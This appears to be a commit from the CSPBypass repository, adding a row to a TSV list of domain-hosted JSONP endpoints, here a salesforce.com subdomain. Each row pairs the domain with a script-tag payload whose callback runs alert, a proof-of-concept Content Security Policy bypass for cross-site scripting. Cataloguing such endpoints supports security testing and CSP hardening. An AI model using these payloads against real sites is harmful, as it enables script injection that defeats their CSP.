

Before and after one commit to renniepak/CSPBypass, a TSV file: data.tsv, drawn as a sheet; only a part is shown, gaps mark what is left out.

Commit message:
added omtr2.partners.salesforce.com

```diff
--- a/data.tsv
+++ b/data.tsv
@@ -226 +226,2 @@ zhike.help.360.cn	<script src="https://zhike.help.360.cn/api/v1/robotWindow?call
 zhuanjia.sogou.com	<script src="https://zhuanjia.sogou.com/base/ajax/login/login-init?callback=alert(1)-"></script>
+omtr2.partners.salesforce.com   <script src="https://omtr2.partners.salesforce.com/id?callback=alert"></script>
```
